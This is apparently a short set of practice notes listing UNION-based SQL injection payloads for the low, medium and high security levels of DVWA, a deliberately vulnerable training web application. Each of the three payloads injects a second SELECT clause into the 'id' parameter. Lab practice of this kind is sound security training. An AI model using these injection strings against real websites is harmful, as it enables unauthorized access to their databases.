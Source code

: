 *DVWA SQL INJECTION VULNERABILITIES*

<h1>LOW LEVEL</h1>

?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit

<h1>MEDIUM LEVEL</h1>

?id=a UNION SELECT 1,2;-- -&Submit=Submit

<h1>HIGH LEVEL</h1>

ID: a' UNION SELECT "text1","text2";-- -&Submit=Submit
